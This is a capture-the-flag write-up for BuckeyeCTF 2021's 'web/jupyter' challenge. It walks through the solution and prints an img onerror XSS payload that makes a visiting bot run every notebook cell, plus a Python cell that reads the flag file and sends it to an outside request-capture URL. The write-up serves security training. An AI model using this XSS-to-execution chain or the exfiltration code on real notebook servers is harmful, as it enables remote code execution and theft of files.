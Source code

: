 # BuckeyeCTF 2021 - `web/jupyter`

## Challenge Description

Upload a Jupyter notebook and the admin bot will take a look at it :)

URL: http://3.21.105.111

Note: Try to be gentle with the server

## Solution Summary

Use HTML cell to place XSS on the Jupyter notebook which forces the bot to run a code cell with Python code that exfiltrates the flag.

## Challenge Analysis

This challenge contains two components: the `app` and the `bot`. The `app` is a web app that serves a simple file upload for [Jupyter notebooks](https://jupyter.org/),
which are documents that contain Python code cells and display their output.

![alt text](https://github.com/Nolan1324/CTF-Writeups/blob/main/buckeye-2021/jupyter/upload.png)

This will post it to the `/upload_ipynb` endpoint on the app. The file will be given a random name ending in `.ipynb` and written to an uploads folder.
The notebook will then be ran with `jupyter trust` and served at the URL `"{APP_URL}:8888/notebooks/{filename}"`.
The app will then post to the bot's `/visit` endpoint with the URL of the notebook it is hosting in the body.
Note that only the app server can send requests to this endpoint as it has to send a secret `BOT_TOKEN` along with it.

When the bot receives a valid URL on this endpoint, it will visit it using Puppeteer.
After a timeout, it will then call `window.IPython.notebook.close_and_halt()` to gracefully stop and close the Jupyter notebook that it is viewing.

The app also a contains `run.sh` which immediately moves the file containing the flag to `/flag_{rand}.txt`, where `rand` is a random hex string.
Our goal therefore is to read this file.

## Solution Walkthrough

Since Jupyter notebooks contain code cells that execute Python code on the local machine, we should be able to get the flag if the bot runs a code cell while viewing the Jupyter notebook.
Even though the bot is viewing the notebook, executed code cells will run on the app, since the app is the server hosting the Jupyter notebook.
This is good because the app has the flag file, not the bot.

I created a new notebook by downloading Jupyter and running `jupyter notebook` to open my own web enviornment.
I then wrote a simple Python payload in a code cell that exfiltrates the flag.

```python
import urllib
import glob

endpoint = 'https://enbnoedu5p8tj.x.pipedream.net/'

path = "/flag*.txt"
flag = ''

for filename in glob.glob(path):
    with open(filename, 'r') as f:
        flag = f.readline()

urllib.request.urlopen(endpoint + flag)
```

The purpose of `glob` is to find the flag's filename, since part of the filename is random.
The content of this file is then read and sent to a server created with [request.bin](https://requestbin.com/).

This code cell works when the user decides to run it.
However, there is still a problem: when the bot reads the Jupyter notebook, it doesn't actually run any of the code cells.

I noticed in the bot that `window.IPython.notebook.close_and_halt()` gets called in order to stop the notebook.
This implies that Jupyter has some Javascript functions that we could possibly leverage to get the bot to run the code cell.
After some digging, I found that running the Javascript `IPython.notebook.execute_all_cells()` on the page will run all code cells.
I tried to write a script that would execute only one cell, but I had issues with this working consistently.

Now all we need is some XSS on our Jupyter notebook page to run this Javascript.
I found that in Jupyter you can have a code cell output HTML by using the following syntax in a code cell.

```html
%%html
<!--
HTML goes here
-->
```

The HTML outputed when this code cell is ran will actually persist even if the notebook is closed and reopened (as long as you save it beforehand).
This generated HTML could be the perfect place to get some XSS running.

When I tried running my XSS using `script` tags, I sometimes had issues with the page not running the script or running it at the wrong time.
There are probably many different ways of solving this (I think you can even edit the notebook's source code directly),
but I decided to just use the quick solution of having an invalid `img` element that runs my XSS payload via `onerror`.

```html
%%html
<img src='http://example.com' onerror='if(!window.loaded) IPython.notebook.execute_all_cells(); window.loaded = true' />
```

The purpose of creating the `window.loaded` variable is just so that the script doesn't keep running itself.
Since I am executing **all** cells, the HTML will be regenerated and the event will fire again.

This had the desired effect of running all of the cells whenever I opened the notebook!
Thus all that was left was to upload this to the app server and have the bot open it for me and send me the flag.

## Solution Source

https://github.com/Nolan1324/CTF-Writeups/blob/main/buckeye-2021/jupyter/notebook.ipynb


